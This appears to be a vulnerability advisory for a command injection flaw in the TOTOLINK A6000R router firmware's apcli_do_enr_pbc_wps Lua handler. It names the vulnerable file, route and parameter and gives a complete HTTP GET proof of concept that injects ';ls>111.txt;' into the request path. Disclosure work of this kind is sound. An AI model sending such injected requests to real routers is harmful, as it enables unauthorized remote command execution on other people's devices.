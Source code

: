 # Vulnerability Title

TOTOLINK A6000R router has a command injection vulnerability

# Vulnerability Description
There is a command injection vulnerability in the apcli_do_enr_pbc_wps function in the TOTOLINK A6000R router firmware version V1.0.1-B20201211.2000.
An attacker can exploit this vulnerability to remotely execute system commands without authorization, causing the server to crash, which has a serious impact.

# Vulnerability Location
/admin/mtk/wifi/apcli_do_enr_pbc_wps/arg

# Firmware version
V1.0.1-B20201211.2000

# Code Analysis

There is a command injection vulnerability in the apcli_do_enr_pbc_wps function in the firmware version V1.0.1-B20201211.2000 of the TOTOLINK A6000R router. There is a command injection vulnerability in the apcli_do_enr_pbc_wps function in the /usr/lib/lua/luci/controller/mtkwifi.lua file, which is triggered by the iface parameter. 
An attacker can execute arbitrary commands on the router by constructing a special HTTP request.
![image](https://github.com/user-attachments/assets/bd408c48-6fa4-4003-9b2c-0f7d25d0cd21)


route:/admin/mtk/wifi/apcli_do_enr_pbc_wps/arg
![image](https://github.com/user-attachments/assets/d7692edf-115f-49af-b712-4d6ff357eff1)


# Local reproduction

By sending an HTTP GET request to a specific URL, you can inject commands into the iface parameter.
For example, you can inject the ls>111.txt command to list the directory contents to verify the existence of the vulnerability.
POC
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pbc_wps/;ls>111.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=80c79bd6ad9bfba9656b7a8bee2a988f
```
![image](https://github.com/user-attachments/assets/a4a0b79a-493e-4536-9313-b7fc0886c04f)
![image](https://github.com/user-attachments/assets/88c6ed47-040e-4fd0-b305-e2b938482a43)

